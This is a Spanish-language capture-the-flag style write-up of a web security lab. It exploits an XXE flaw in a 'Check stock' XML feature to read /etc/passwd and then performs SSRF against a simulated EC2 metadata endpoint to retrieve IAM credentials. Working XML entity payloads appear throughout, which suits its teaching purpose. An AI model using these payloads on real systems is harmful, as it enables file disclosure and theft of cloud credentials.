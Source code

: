 # Lab: Exploiting XXE to perform SSRF attacks

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.

To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

## 📝 Introducción

Este laboratorio simula un escenario realista en entornos de nube, donde una aplicación web vulnerable a **XXE (XML External Entity injection)** es explotada para realizar un ataque de tipo **SSRF (Server-Side Request Forgery)** contra el **endpoint de metadatos de una instancia EC2 de AWS**.

La funcionalidad vulnerable es `Check stock`, la cual acepta entradas en formato XML, las analiza mediante un parser no seguro, y refleja parte del contenido procesado en la respuesta. Esto habilita la inyección de entidades externas (`<!ENTITY>`), que pueden ser utilizadas para hacer que el servidor realice solicitudes HTTP internas arbitrarias.

El servidor tiene habilitado el endpoint de metadatos en `http://169.254.169.254/`, una dirección IP reservada que las instancias EC2 usan para acceder a datos sensibles como credenciales de IAM, configuración de red, o el hostname. Si el servidor permite resolver entidades externas desde esta dirección, un atacante puede extraer credenciales sensibles directamente.

---

### 🎯 Objetivo

Explotar la vulnerabilidad **XXE → SSRF** para acceder al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` y recuperar la **clave secreta del IAM role** asignado a la instancia, resolviendo así el laboratorio.


Iniciamos el laboratorio y nos encontramos con una aplicación de compras online:
![image](https://github.com/user-attachments/assets/e11d3138-8859-4bfb-b15a-0b72d2b0dd89)

Accedemos al detalle de un producto haciendo click en `View details`:
![image](https://github.com/user-attachments/assets/f8676e22-e348-4666-8e8f-bb4c9ff61c31)

El laboratorio nos habla de una funcionalidad `Check store` que parsea input XML, por lo que accedemos a la funcionalidad `Check store` para analizarla haciendo click en el botón `Check stock`, el cual nos devuelve 108 unidades de stock:
![image](https://github.com/user-attachments/assets/bfd2357c-f5e2-47fb-a189-1cc909c57489)


Al igual que en el laboratorio anterior, estamos enviando información a través de XML:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
El servidor responde con 108, lo que indica que interpreta y procesa correctamente el XML enviado.

Indicios:

- El servidor está procesando directamente el contenido XML que el cliente envía, lo cual es el punto de partida para probar inyecciones de entidades externas.

- No hay evidencias de validación ni sanitización del XML.

- Si el servidor usa un parser vulnerable que permite entidades externas, podríamos intentar algo como:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "test"> ]>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```

Enviamos la petición al `Repeater` y vemos cómo se comporta el servidor al enviarle el payload anterior:
![image](https://github.com/user-attachments/assets/3031e57e-bffd-4f0e-a56d-0a4a52b08c02)

En este caso estamos definiendo un `DTD` que contiene una entidad interna `test` con el valor "test".
Aunque en este ejemplo **no estamos utilizando la entidad `&test;` dentro del XML**, esto **sirve como prueba inicial** para verificar si el servidor acepta la inclusión de un `DOCTYPE`. Esto puede revelar si:

- El parser XML está configurado para **procesar DTDs internos**.
- Existen **controles de seguridad que bloqueen la definición de entidades** (por ejemplo, filtros WAF).
- Se producen errores de parsing, lo cual podría indicar una **superficie vulnerable a ataques XXE**.


El siguiente paso es confirmar si el servidor resuelve y expande entidades, por lo que referenciaremos la entidad:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY test "XXE Working"> ]>
<stockCheck>
  <productId>&test;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/user-attachments/assets/1140da8b-d780-4aaa-9076-d4c39cb7e114)

El servidor respondió `"Invalid product ID: XXE Working"`, esto prueba que:

- El parser XML aceptó la definición <!ENTITY>.

- La entidad `&test;` fue resuelta correctamente.

- El contenido de la entidad fue inyectado dinámicamente en el valor del productId.

- El servidor reflejó ese valor en la respuesta.

Este es un ejemplo de XXE clásico tipo “data disclosure”, donde un atacante podría en lugar de "XXE Working", ingresar una entidad externa, por ejemplo:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la request en Burp Suite:
![image](https://github.com/user-attachments/assets/4b8b1e99-7d54-4b7e-80e3-db38386875a5)

Esta captura confirma de forma indiscutible que se explotó exitosamente una vulnerabilidad de tipo XML External Entity - File Disclosure.

Este comportamiento muestra:

- Que el parser XML está mal configurado (no tiene desactivado el procesamiento de entidades externas).

- Que no hay validación ni filtrado del contenido XML por parte del backend.

- Que un atacante puede leer archivos arbitrarios del servidor (Local File Disclosure).

Hata ahora la resolución viene siendo idéntica al laboratorio anterior, este es el momento de buscar la explotación de un SSRF como pide el enunciado.

---

### 🌐 Explotación XXE → SSRF

El enunciado del laboratorio nos indica que el servidor tiene acceso al endpoint reservado `http://169.254.169.254/`, típico de instancias EC2 de Amazon Web Services. Este endpoint contiene información sensible, como las credenciales IAM de la máquina.

Vamos a modificar el payload para que en lugar de leer un archivo del sistema (`file:///etc/passwd`), haga una solicitud a este endpoint interno. El objetivo inicial es obtener el nombre del perfil IAM:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Para llegar a esa ruta podríamos intentar utilizar el siguiente payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>1</storeId>
</stockCheck>
```

Analizamos la respuesta del servidor, notamos que nos devuelve `latest`:
![image](https://github.com/user-attachments/assets/fd80c448-f166-462b-8b7d-c969593f014e)

Procedemos a dirigirnos a `/latest` y el servidor nos devuelve `meta-data`:
![image](https://github.com/user-attachments/assets/b634059c-619a-43b8-a877-77a313f8560d)

Nos dirigimos a `/latest/meta-data` y el servidor nos responde con `iam`
![image](https://github.com/user-attachments/assets/0d7ee2a4-047d-4ec0-abbb-c3ab6a761b05)

Accedemos a `/latest/meta-data/iam/` y el servidor nos devuelve `security-credentials`:
![image](https://github.com/user-attachments/assets/7948a421-a136-402e-8f71-5a47f1542b29)

Por lo que actualmente nos falta ingresar al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/` que nos devuelve `admin`:
![image](https://github.com/user-attachments/assets/094e06ab-3682-4a98-9b5e-09a3fd60e5c8)

Accedemos al endpoint `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin`:
![image](https://github.com/user-attachments/assets/a600c8b7-208d-4fd3-9f75-72f795f78a73)











